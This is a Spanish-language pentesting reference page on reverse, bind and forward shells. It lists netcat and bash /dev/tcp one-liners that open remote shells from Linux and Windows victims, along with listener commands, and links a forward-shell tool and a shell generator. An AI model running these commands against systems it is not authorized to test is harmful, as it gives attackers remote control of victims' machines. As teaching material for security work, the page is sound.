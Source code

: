 # Shells

## Tipos de Shell

### Reverse Shell

<figure><img src="../../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

#### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha

#### Victima Linux

```bash
nc -e /bin/bash <IP> <Port>

# Bash
bash -i >& /dev/tcp/<IP>/<Port> 0>&1
```

#### Víctima Windows

```bash
nc.exe –e cmd.exe <IP> <Port>
```

### Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

#### Atacante Linux

```bash
nc <IP Target> <Port>
```

#### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

#### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}

### Forward Shell

Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Puedes encontrar casos en los que tienes un RCE (Remote Code Execution) en una aplicación web en una máquina Linux pero debido a reglas Iptables u otro tipo de filtrado no puedes obtener una shell inversa.

Esta técnica o tipo de "shell" te permite mantener un shell PTY a través de ese RCE usando tuberías dentro del sistema víctima.

{% embed url="https://github.com/IppSec/forward-shell" %}

Sólo necesitas modificar La URL del host vulnerable El prefijo y sufijo de tu payload (si lo hay) La forma en que se envía el payload (¿encabezados? ¿datos? ¿información extra?) Luego, sólo tienes que enviar comandos o incluso utilizar el comando upgrade para obtener un PTY completo (ten en cuenta que las tuberías se leen y escriben con un retardo aproximado de 1,3s).

## Referencias

{% embed url="https://www.revshells.com/" %}
Generador de Revershells
{% endembed %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
